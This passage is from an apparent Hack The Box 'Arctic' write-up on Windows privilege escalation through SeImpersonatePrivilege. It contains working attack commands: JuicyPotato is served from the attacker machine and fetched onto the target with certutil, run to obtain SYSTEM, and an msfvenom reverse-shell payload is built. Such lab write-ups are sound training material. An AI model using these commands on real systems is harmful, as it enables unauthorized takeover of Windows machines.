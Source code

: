 Nope. The `SERVICE_START_NAME` is `LocalSystem`, which means **only SYSTEM user can restart the service**. Also, user `tolis` can't reboot the machine as this user **doesn't have `SeShutdownPrivilege`**, which is the permission to shut down/reboot the system. That being said, we can't escalate our privilege to SYSTEM via overwriting `CF8DotNetsvc.exe` binary.

Luckily, **user `tolis` has `SeImpersonatePrivilege`**, which means we can leverage **potato exploits** to escalate our privilege to SYSTEM!

According to [https://jlajara.gitlab.io/Potatoes_Windows_Privesc#tldr](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#tldr), if the Windows version is < Windows 10 1809 < Windows Server 2019, we can try to use **[Juicy Potato](https://github.com/ohpe/juicy-potato/)**.

- **Transfer [Juicy Potato executable](https://github.com/ohpe/juicy-potato/releases/) to the target machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:52:15(HKT)]
└> file /opt/juicy-potato/JuicyPotato.exe 
/opt/juicy-potato/JuicyPotato.exe: PE32+ executable (console) x86-64, for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:52:19(HKT)]
└> python3 -m http.server -d /opt/juicy-potato/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\ColdFusion8\runtime\bin>certutil -urlcache -split -f http://10.10.14.8/JuicyPotato.exe C:\Users\tolis\Desktop\JuicyPotato.exe
[...]
CertUtil: -URLCache command completed successfully.
```

- **Test the exploit:**

```shell
C:\ColdFusion8\runtime\bin>C:\Users\tolis\Desktop\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c whoami"
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 1337
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

> Note: You can find a suitable CLSID in [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/).

It worked!

- **Generate a stageless reverse shell executable via `msfvenom`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Arctic)-[2023.08.02|14:57:15(HKT)]
└> msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o revshell_stageless_system.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: revshell_system.exe
```
